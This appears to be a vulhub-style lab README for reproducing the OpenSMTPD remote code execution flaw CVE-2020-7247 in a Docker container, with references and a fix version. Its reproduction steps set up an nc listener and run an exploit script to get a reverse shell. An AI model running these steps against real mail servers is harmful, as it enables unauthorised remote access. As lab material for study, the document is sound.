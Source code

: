 # OpenSMTPD Remote Code Execution Vulnerability (CVE-2020-7247)

[中文版本(Chinese version)](https://github.com/CatAndCoffee/vulhub/blob/CVE-2020-7247/OpenSMTPD/CVE-2020-7247/README.zh-cn.md)

OpenSMTPD is an smtp service program for unix operating systems (BSD, MacOS, GNU/Linux), following the RFC 5321 SMTP protocol. OpenSMTPD was originally developed for the OpenBSD operating system and is part of the OpenBSD project. Due to its open source properties, Distributed to other unix platforms. According to the ISC license, the software is free for everyone to use and reuse.

`CVE-2020-7247` is caused by OpenSMTPD's lax verification of the sender/recipient in the process of implementing RFC 5321.

On January 29, 2020, OpenSMTPD group officially submitted a fix for the `CVE-2020-7247` in the GitHub repository. After the repair, the corresponding version is `OpenSMTPD 6.6.2p1`.

**Reference：**

- https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt
- https://www.exploit-db.com/exploits/47984
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247
- https://www.anquanke.com/post/id/197689
- （Vulnerable source code）https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1

## Start Vulnerability Application

Start a vulnerable OpenSMTPD through following command:

```
docker-compose up -d
```

If success, you will see the following results with using command: `nc <Target_IP> 8825 -v`  (`44dadcc5a6eb` is the container ID )

```
220 44dadcc5a6eb ESMTP OpenSMTPD
```

Vulnerability Reproduce

This vulnerability did not return anything, so let's get the reverse shell.

1. Create a listen on local host: `nc -lp <Listen_Port> `
2. Using `exp.py` to get shell: `python3 exp.py <Target_IP> 8825 <Listen_IP> <Listen_Port>`

If the exploit is successful, you will see the following screen:

![image](https://github.com/CatAndCoffee/vulhub/blob/CVE-2020-7247/OpenSMTPD/CVE-2020-7247/image-20210415233036042.png)

